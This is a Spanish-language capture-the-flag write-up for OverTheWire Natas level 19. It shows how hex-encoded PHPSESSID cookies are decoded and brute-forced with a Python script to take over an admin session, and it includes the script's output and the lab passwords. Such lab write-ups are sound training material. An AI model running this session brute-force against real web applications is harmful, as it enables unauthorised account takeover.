 #Natas Level 18 → Level 19

Username: natas19

URL:      http://natas19.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas19.natas.labs.overthewire.org** 
- **Usuario    : natas19**
- **Contraseña : 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs**

La contraseña la hemos sacado del nivel anterior.

Entramos a la web y nos muestra dos campos donde tenemos que introducir el **usuario** y la **contraseña** para poder conseguir las credenciales para el nivel **natas20** pero en esta ocasión nos indican que las **PHPSESSID** no son secuenciales

```html
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
Please login with your admin account to retrieve credentials for natas20.
Username: 
Password:
```

Vemos que en el código fuente no encontramos nada así que vamos a ver el valor de la **COOKIE** **PHPSESSID**

```php
PHPSESSID = 3231372d61646d696e
```

Parece que ya no es un valor numérico sino otro formato. 

Probamos a decodificarlo en diferentes formatos y nos damos cuenta de que el texto está en **HEX** por lo que le pasamos un **DECODER** y miramos que nos sale

```php
PHPSESSID = 3231372d61646d696e     ->  Hex2ASCII   -> PHPSESSID = 217-admin
```

Viendo el reto anterior, podemos deducir que también tiene 640 sesiones posible para usuarios y admin. 

En este caso, seguramente podamos crear un patrón del siguiente tipo y luego codificarlo en hex

```php
201-admin
202-admin
203-admin
204-admin
```

Así que vamos a crear otro script en python para que nos automatice la tarea de nuevo. 

Vamos a utilizar el código del nivel anterior pero modificandole la linea del **SESSID** donde la codificaremos a **HEX** como nos indican.

En un alarde de originalidad, vamos a ponerle el nombre de nata19.py :smile:

```python
import requests
 
for sessid in range(641):
	payload = ""+(str(sessid)+'-admin').encode('hex')
	r = requests.get('http://natas19.natas.labs.overthewire.org?debug=1', 
		auth=('natas19', '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'), 
		cookies={'PHPSESSID':str(payload)})
 
	if 'You are an admin' in r.content:
	    print r.content 
	    break
	else:
		print "PHPSESSID ->\t {0} - {1}\t NOPE :( ".format(str(sessid),payload)
```

Lo ejecutamos y esperamos a ver el resultado.

```bash
ikerburguera@:~/Desktop$ python natas19.py
PHPSESSID ->	 0 - 302d61646d696e	 NOPE :( 
PHPSESSID ->	 1 - 312d61646d696e	 NOPE :( 
PHPSESSID ->	 2 - 322d61646d696e	 NOPE :( 
PHPSESSID ->	 3 - 332d61646d696e	 NOPE :( 
...
PHPSESSID ->	 591 - 3539312d61646d696e	 NOPE :( 
PHPSESSID ->	 592 - 3539322d61646d696e	 NOPE :( 
PHPSESSID ->	 593 - 3539332d61646d696e	 NOPE :( 
PHPSESSID ->	 594 - 3539342d61646d696e	 NOPE :( 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs" };</script></head>
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>
</body>
</html>
```

Y nos devuelve la password del siguiente nivel! :smile:

**FLAG** = {eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF}


